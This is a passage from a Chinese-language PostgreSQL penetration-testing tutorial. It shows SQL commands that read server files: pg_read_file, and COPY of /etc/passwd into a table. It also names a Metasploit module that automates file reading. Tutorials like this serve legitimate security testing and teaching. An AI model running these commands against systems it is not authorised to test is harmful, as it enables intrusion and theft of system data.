 
[![](/Users/seven/Desktop/pocs/database/postgresql/postgresql渗透技巧.assets/t01c8c8da8767f58b1c.png)](https://p3.ssl.qhimg.com/t01c8c8da8767f58b1c.png)



图 14. PostgreSQL：读取系统目录结构



执行如下命令，我们就能读取服务端的 postgres 文件。



```

postgres=# select pg_read_file('PG_VERSION', 0, 200);



```



[![](/Users/seven/Desktop/pocs/database/postgresql/postgresql渗透技巧.assets/t01c1906747e0da0d69.png)](https://p1.ssl.qhimg.com/t01c1906747e0da0d69.png)



图 15. PostgreSQL：读取服务端文件



我们也可以创建一个数据表，以便存储及查看目标主机中已有的某个文件。命令如下：



```

postgres-# CREATE TABLE temp(t TEXT);

postgres-# COPY temp FROM '/etc/passwd';

postgres-# SELECT * FROM temp limit 1 offset 0;



```



[![](/Users/seven/Desktop/pocs/database/postgresql/postgresql渗透技巧.assets/t012105e5a9a9fae2e2.png)](https://p2.ssl.qhimg.com/t012105e5a9a9fae2e2.png)



图 16. PostgreSQL：读取本地文件



Metasploit 框架中有个模块，可以自动化读取本地文件，命令如下：



```

auxiliary/admin/postgres/postgres_readfile



```
